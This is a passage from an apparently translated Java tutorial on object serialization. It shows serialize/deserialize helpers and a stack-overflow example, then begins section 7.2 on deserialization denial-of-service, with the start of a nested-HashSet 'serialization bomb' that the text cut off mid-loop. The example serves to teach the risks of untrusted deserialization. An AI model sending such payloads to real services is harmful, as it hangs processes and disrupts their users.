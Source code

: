 ```
        list.add(list);
        return serialize(map);
    }

    public static byte[] serialize(Object o) {
        ByteArrayOutputStream ba = new ByteArrayOutputStream();
        try {
            new ObjectOutputStream(ba).writeObject(o);
        } catch (IOException e) {
            throw new IllegalArgumentException(e);
        }
        return ba.toByteArray();
    }

    public static Object deserialize(byte[] bytes) {
        try {
            return new ObjectInputStream(
                    new ByteArrayInputStream(bytes)).readObject();
        } catch (IOException | ClassNotFoundException e) {
            throw new IllegalArgumentException(e);
        }
    }

} 
```

输出

Terminal

```
 Exception in thread "main" java.lang.StackOverflowError
  at java.base/java.util.ArrayList.hashCode(ArrayList.java:582)
  at java.base/java.util.ArrayList.hashCodeRange(ArrayList.java:595)
  //... 
```

### 7.2 反序列化和拒绝服务攻击(DoS 攻击)

反序列化下面的字节流将保持进程运行，挂起，并慢慢降低系统速度，这是典型的 DoS 攻击。

DosExample.java

```
 package com.mkyong.io.object.attack;

import java.io.*;
import java.util.HashSet;
import java.util.Set;

public class DosExample {

  public static void main(String[] args) throws Exception {
      System.out.println(bomb().length);

      deserialize(bomb());  // Dos here

      System.out.println("Done");
  }

  static byte[] bomb() {
      Set<Object> root = new HashSet<>();
      Set<Object> s1 = root;
      Set<Object> s2 = new HashSet<>();
      for (int i = 0; i < 100; i++) {
          Set<Object> t1 = new HashSet<>();
```